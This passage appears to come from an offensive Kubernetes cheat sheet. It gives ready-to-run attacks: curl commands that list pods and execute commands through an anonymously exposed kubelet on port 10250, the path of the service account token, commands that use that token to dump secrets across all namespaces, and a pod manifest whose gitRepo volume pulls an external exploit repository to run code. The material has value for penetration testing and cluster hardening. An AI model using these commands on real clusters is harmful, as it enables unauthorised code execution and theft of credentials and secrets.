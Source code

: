 ### kubelet (Read only)

```powershell
curl -k https://<IP Address>:10255
http://<external-IP>:10255/pods
```


## Exploits

### Accessible kubelet on 10250/TCP

**Requirements**:

* `--anonymous-auth`: Enables anonymous requests to the Kubelet server

**Exploit**:

* Getting pods: `curl -ks https://worker:10250/pods`
* Run commands: `curl -Gks https://worker:10250/exec/{namespace}/{pod}/{container} -d 'input=1' -d 'output=1' -d'tty=1' -d 'command=ls' -d 'command=/'`


### Obtaining Service Account Token

Token is stored at `/var/run/secrets/kubernetes.io/serviceaccount/token`

Use the service account token:
* on `kube-apiserver` API: `curl -ks -H "Authorization: Bearer <TOKEN>" https://master:6443/api/v1/namespaces/{namespace}/secrets`
* with kubectl: ` kubectl --insecure-skip-tls-verify=true --server="https://master:6443" --token="<TOKEN>" get secrets --all-namespaces -o json`


### Create gitRepo Volumes to Execute Code

**Requirements**:

* [`gitRepo`](https://kubernetes.io/docs/concepts/storage/volumes/#gitrepo) volume type enabled
* `create` rights on pods

**Exploit**:

```yml
apiVersion: v1
kind: Pod
metadata:
  name: test-pd
spec:
  containers:
  - image: alpine:latest
    command: ["sleep","86400"]
    name: test-container
    volumeMounts:
    - mountPath: /gitrepo
      name: gitvolume
  volumes:
  - name: gitvolume
    gitRepo:
      directory: g/.git
      repository: https://github.com/raesene/repopodexploit.git
      revision: main
```
